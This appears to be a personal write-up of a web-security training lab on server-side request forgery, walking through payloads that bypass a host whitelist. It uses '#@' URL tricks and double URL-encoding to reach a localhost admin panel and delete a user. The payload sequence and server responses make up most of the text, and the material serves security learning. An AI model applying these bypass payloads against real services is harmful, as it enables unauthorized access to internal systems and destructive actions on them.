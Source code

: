 # SSRF with whitelist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed an anti-SSRF defense you will need to bypass.

note:
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
control + u for url encoded
http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1
ctrl + shift =u url decoded

### step1

stockApi=http://username#@stock.weliketoshop.net
respoonse => "External stock check host must be stock.weliketoshop.net"

ctrl + u => stockApi=http://username%23@stock.weliketoshop.net
response => "External stock check host must be stock.weliketoshop.net"

again ctrl + u => stockApi=http://username%2523@stock.weliketoshop.net
response => HTTP/1.1 500 Internal Server Error

remove http://username add http://localhost
stockApi=http://localhost%2523@stock.weliketoshop.net
response => 200 ok

![screenshot](./images/lab6_localhost_response.png)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin
response 200 ok

![screenshot](./images/lab6_localhost_response_admin_panel.png)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

send request => 302 Found

lab solved
